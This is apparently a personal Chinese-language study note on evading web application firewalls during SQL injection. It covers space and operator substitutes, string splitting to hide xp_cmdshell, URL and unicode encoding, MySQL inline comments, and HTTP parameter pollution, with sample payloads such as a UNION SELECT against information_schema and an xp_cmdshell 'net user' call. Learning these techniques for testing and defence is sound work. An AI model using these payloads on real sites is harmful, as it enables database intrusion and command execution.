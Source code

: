 用法：and和or不能使用：可以使用&&和||代替     =不能使用：可以尝试>.<     空格不能使用时：%20  ,   %09    ,     %0a    ,   %0b    ,  %0c   ,  %0d   ,   %a0   /**/       等于（=）不能使用时：like

注意：在mysql中%0a是换行，可以代替空格

### 特殊字符拼接

出现原因：把特殊字符字符拼接起来绕过waf的检测

用法：如在函数里可以用+来拼接，在MySQL中可以利用注释/**/绕过

id=1,exec(master...xp_cmdshell'net user')可以写成id=1,exec('maste'+'r...xp'+'_cmdshell'+'"net user"')

说明：master...xp_cmdshell 是一个可以执行系统命令的函数

### 编码绕过

对一些字符进行编码，常见的sql编码有unicode，HEX，URL，ascii，base64等

出现原因：利用浏览器上的进制转换或者语言编码规则来绕过waf

#### url编码

空格 %20，单引号%27，左括号%28，斜杠（/）%2f，星号（*）%2a，逗号%2c

#### unicode编码

单引号：%u0027     空格：%u0020    左括号：%u0028   右括号：%u0029

### 注释绕过（常用）

常见的注释符：// ， /**/，--+，--a

出现原因：利用语言函数特性来绕过waf 

#### 普通注释

/**/在构造的查询语句中插入注释，规避对空格的依赖或关键字识别

用法：id=1/* */UNION/ * */select 1,2,3

#### 内联注释

内联注释有一个特性/*！/只有mysql能识别（/ * ! */表示注释里面的语句会被执行）

用法：采用/*！code */来执行我们的sql语句，内联注释可以用于整个sql语句中

举例:id=1 /*!uniON */+sELEct+1,2,concat(/ *!tabLE_name */)+From/ *!information_schema  */.tabLEs/ * !where*/+/ *!table_schema */+like+database()

###   参数污染

hpp又叫重复参数污染，当同一参数出现多次，不同中间件会解析为不同的结果，如果waf只检测了同名参数中的第一个或最后一个，并且中间特性正好取与waf相反的参数，则可以成功绕过

![image-20240828103146676](C:\Users\24937\Desktop\学习\笔记\assets\image-20240828103146676.png)

web服务器在遇到为同一个参数赋值不同数值时，会将他们连接起来，攻击者通过这个方法来绕过黑名单

举例：id=select 1,2,3 from table 可以写成 id=select 1&id=2,3 from table
